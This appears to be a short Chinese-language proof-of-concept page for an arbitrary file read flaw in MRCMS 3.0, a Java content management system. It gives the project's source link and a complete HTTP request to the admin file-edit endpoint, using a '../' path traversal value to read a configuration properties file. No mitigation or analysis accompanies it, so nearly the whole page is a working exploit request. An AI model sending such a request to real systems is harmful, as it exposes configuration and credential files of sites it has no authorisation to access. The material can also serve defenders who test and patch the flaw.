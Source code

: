 ## MRCMS3.0任意文件读取漏洞

MRCMS 是一款Java开发的内容管理系统，采用数据模型+模板+插件实现，内置提供了文章模型发布功能。

## 源码
```
https://gitee.com/marker/MRCMS
```

## poc
```
GET /admin/file/edit.do?path=../resources/config.properties&name= HTTP/1.1
Host: 127.0.0.1:8080
Referer: http://127.0.0.1:8080/admin/index.do
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Mode: cors
X-Requested-With: XMLHttpRequest
```

![image](https://github.com/wy876/POC/assets/139549762/39dbdc2a-d6d5-481f-b9bb-8bbb0cbac76c)
